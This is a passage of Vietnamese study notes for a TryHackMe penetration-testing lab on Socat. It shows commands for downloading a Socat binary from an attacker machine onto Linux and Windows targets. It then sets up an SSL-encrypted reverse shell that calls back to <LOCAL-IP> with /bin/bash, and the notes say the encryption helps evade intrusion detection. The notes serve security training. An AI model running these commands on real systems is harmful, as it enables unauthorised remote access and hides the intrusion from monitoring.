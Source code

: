 ![img](https://github.com/DucThinh47/TryHackMe/blob/main/Jr_Penetration_Tester/Privilege-Escalation/images/image6.png?raw=true)

**Lưu ý**

Socat thường không được cài đặt sẵn trên các hệ thống. Có thể tải lên một tệp nhị phân Socat đã biên dịch sẵn và thực thi nó trên mục tiêu.

Để tải Socat lên mục tiêu, sử dụng máy chủ web trên máy tấn công:

    sudo python3 -m http.server 80

Trên mục tiêu Linux, tải Socat bằng:

    wget <LOCAL-IP>/socat -O /tmp/socat

Trên mục tiêu Windows, sử dụng Powershell:

    Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\Windows\Temp\socat.exe

**Task 7: Socat Encrypted Shells**

Một trong những tính năng tuyệt vời của Socat là khả năng tạo các shell được mã hóa - cả reverse shell và bind shell. Shell được mã hóa không thể bị theo dõi trừ khi có khóa giải mã, giúp chúng vượt qua được các hệ thống phát hiện xâm nhập (IDS).

**Tạo Chứng Chỉ**

Để sử dụng shell được mã hóa, trước tiên cần tạo một chứng chỉ SSL. Cách dễ nhất để làm điều này là trên máy tấn công:

1. Tạo khóa và chứng chỉ:

    openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt

- Lệnh này tạo một khóa RSA 2048 bit và chứng chỉ tự ký có hiệu lực trong 362 ngày.

- Sẽ có yêu cầu nhập thông tin về chứng chỉ. Có thể để trống hoặc điền ngẫu nhiên.

2. Hợp nhất khóa và chứng chỉ thành tệp .pem:

    cat shell.key shell.crt > shell.pem

**Reverse Shell được mã hóa**

*Listener trên máy tấn công*:

    socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -

- Lệnh này thiết lập một listener sử dụng SSL với chứng chỉ đã tạo.

- verify=0 tắt xác thực chứng chỉ từ phía máy tấn công.

*Kết nối từ mục tiêu*:

    socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash

